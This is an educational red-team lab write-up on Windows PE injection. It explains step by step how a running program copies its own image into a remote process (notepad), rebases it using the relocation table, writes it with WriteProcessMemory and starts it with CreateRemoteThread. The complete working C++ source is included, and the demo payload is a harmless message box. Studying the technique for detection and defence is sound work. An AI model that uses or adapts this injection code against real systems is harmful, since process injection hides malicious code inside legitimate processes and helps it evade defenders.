

# PE Injection: Executing PEs inside Remote Processes

This is a quick lab of a simplified way of injecting an entire portable executabe \(PE\) into another running process. Note that in order to inject more complex PEs, additional DLLs in the target process may need to be loaded and Import Address Table fixed and for this, refer to my other lab [Reflective DLL Injection](reflective-dll-injection.md#resolving-import-address-table).

## Overview

In this lab, I wrote a simple C++ executable that consists of two functions:

* `main` - this is the function that is responsible for injection of the PE image of the running process into a remote/target process
* `InjectionEntryPoint` - this is the function that will get executed by the target process \(notepad in my case\) once it gets injected. 
  * This function will pop a `MessageBox` with a name of the module the code is currently running from. If injection is successful, it should spit out a path of notepad.exe.

High level process of the technique as used in this lab:

1. Parse the currently running image's PE headers and get its `sizeOfImage`
2. Allocate a block of memory \(size of PE image retrieved in step 1\) in the currently running process. Let's call it `localImage`
3. Copy the image of the current process into the newly allocated local memory
4. Allocate new memory block \(size of PE image retrieved in step 1\) in a remote process - the target process we want to inject the currently running PE into. Let's call it `targetImage`
5. Calculate delta between memory addresses `localImage` and `targetImage`
6. Patch the PE you're injecting or, in other words, relocate it/rebase it to `targetImage`. For more information about image relocations, see my other lab [T1093: Process Hollowing and Portable Executable Relocations](process-hollowing-and-pe-image-relocations.md)
7. Write the patched PE into `targetImage` memory location
8. Create remote thread and point it to `InjectionEntryPoint` function inside the PE

## Walkthrough

Getting `sizeOfImage` of the current process \(local process\) that will be injecting itself into a target process and allocating a new memory block in the local process:


In my case, the new memory block got allocated at address `0x000001813acc0000`. Let's copy the current process's image in there:


Let's allocate a new block of memory in the target process. In my case it got allocated at `0x000001bfc0c20000`:


Calculate the delta between 0x000001bfc0c20000 and 0x000001813acc0000 and apply image base relocations. Once that's done, we can move over our rebased PE from 0x000001813acc0000 to 0x000001bfc0c20000 in the remote process using `WriteProcessMemory`. Below shows that our imaged has now been moved to the remote process:


Finally, we can create a remote thread and point it to the `InjectionEntryPoint` function inside the remote process:

```cpp
CreateRemoteThread(targetProcess, NULL, 0, (LPTHREAD_START_ROUTINE)((DWORD_PTR)InjectionEntryPoint + deltaImageBase), NULL, 0, NULL);
```



## Demo

Below shows how we've injected the PE into the notepad \(PID 11068\) and executed its function `InjectionEntryPoint` which printed out the name of a module the code was running from, proving that the PE injection was succesful:


## Code

```cpp
#include "pch.h"
#include <stdio.h>
#include <Windows.h>

typedef struct BASE_RELOCATION_ENTRY {
	USHORT Offset : 12;
	USHORT Type : 4;
} BASE_RELOCATION_ENTRY, *PBASE_RELOCATION_ENTRY;

DWORD InjectionEntryPoint()
{
	CHAR moduleName[128] = "";
	GetModuleFileNameA(NULL, moduleName, sizeof(moduleName));
	MessageBoxA(NULL, moduleName, "Obligatory PE Injection", NULL);
	return 0;
}

int main()
{
	PVOID imageBase = GetModuleHandle(NULL);
	PIMAGE_DOS_HEADER dosHeader = (PIMAGE_DOS_HEADER)imageBase;
	PIMAGE_NT_HEADERS ntHeader = (PIMAGE_NT_HEADERS)((DWORD_PTR)imageBase + dosHeader->e_lfanew);
	
	PVOID localImage = VirtualAlloc(NULL, ntHeader->OptionalHeader.SizeOfImage, MEM_COMMIT, PAGE_READWRITE);
	memcpy(localImage, imageBase, ntHeader->OptionalHeader.SizeOfImage);
	
	HANDLE targetProcess = OpenProcess(MAXIMUM_ALLOWED, FALSE, 11068);
	PVOID targetImage = VirtualAllocEx(targetProcess, NULL, ntHeader->OptionalHeader.SizeOfImage, MEM_COMMIT, PAGE_EXECUTE_READWRITE);

	DWORD_PTR deltaImageBase = (DWORD_PTR)targetImage - (DWORD_PTR)imageBase;

	PIMAGE_BASE_RELOCATION relocationTable = (PIMAGE_BASE_RELOCATION)((DWORD_PTR)localImage + ntHeader->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_BASERELOC].VirtualAddress);
	DWORD relocationEntriesCount = 0;
	PDWORD_PTR patchedAddress;
	PBASE_RELOCATION_ENTRY relocationRVA = NULL;
	
	while (relocationTable->SizeOfBlock > 0)
	{
		relocationEntriesCount = (relocationTable->SizeOfBlock - sizeof(IMAGE_BASE_RELOCATION)) / sizeof(USHORT);
		relocationRVA = (PBASE_RELOCATION_ENTRY)(relocationTable + 1);

		for (short i = 0; i < relocationEntriesCount; i++)
		{
			if (relocationRVA[i].Offset)
			{
				patchedAddress = (PDWORD_PTR)((DWORD_PTR)localImage + relocationTable->VirtualAddress + relocationRVA[i].Offset);
				*patchedAddress += deltaImageBase;
			}
		}
		relocationTable = (PIMAGE_BASE_RELOCATION)((DWORD_PTR)relocationTable + relocationTable->SizeOfBlock);
	}

	WriteProcessMemory(targetProcess, targetImage, localImage, ntHeader->OptionalHeader.SizeOfImage, NULL);
	CreateRemoteThread(targetProcess, NULL, 0, (LPTHREAD_START_ROUTINE)((DWORD_PTR)InjectionEntryPoint + deltaImageBase), NULL, 0, NULL);

	return 0;
}
```

## References







